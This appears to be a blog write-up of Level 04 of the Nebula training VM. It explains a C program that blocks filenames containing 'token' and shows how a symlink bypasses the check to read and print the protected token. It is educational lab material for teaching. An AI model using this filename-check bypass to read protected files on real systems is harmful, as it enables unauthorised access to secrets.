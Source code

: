 ```yaml
---
layout: post
title: "Nebula Series - Level 04"
---
```


*Nebula is the first in a series of VMs from Exploit Exercises. It consists of 20 levels which range
in difficulty from simple to intermediate and cover topics like Linux privilege escalation and file
system race conditions.*

**Level 04** teaches us some misdirection

<!--more-->

Depending on filenames to prevent unauthorized access is a terrible idea.

Our goal for this level is to obtain the value stored in the `/home/flag04/token` file. We're provided with the following
source code for the executable at `/home/flag04/flag04`:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));

  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

It first checks that more than one argument is supplied.

```c
  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }
```

The reason it's testing `argc == 1` is because the first argument
is always the name of the executable itself.

Next it checks if the supplied filename contains the substring "token" using `strstr` from the C stdlib.

```c
  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }
```

If the substring is found, the app exits after informing the user that they are not allowed to access that file.

We'll want to avoid this.

Next it opens and reads the file into the buffer

```c
  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));

  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }
```

And finally, it writes the contents to stdout.

```c
  write(1, buf, rc);
```

The first argument here is a file descriptor; in this case it's file descriptor 1 - aka STDOUT.

Alright so how do we sirsumvent the security checks?

Enter symbolic links.

A symbolic link is essentially a named pointer to another file. We can create a symbolic link that doesn't contain "token" in
its name and point it at the token file like

```bash
level04@nebula:~$ ln -s /home/flag04/token /tmp/trickedya

level04@nebula:~$ ls -l /tmp
total 0
lrwxrwxrwx 1 level04 level04 18 2020-04-10 09:00 trickedya -> /home/flag04/token
```

Now all that's left is to run the app again but hand it the symlink

```bash
level04@nebula:~$ /home/flag04/flag04 /tmp/trickedya
06508b5e-8909-4f38-b630-fdb148a848a2
```

And there it is -- the token we weren't supposed to see!

In summary:

- Don't hand-roll your own security
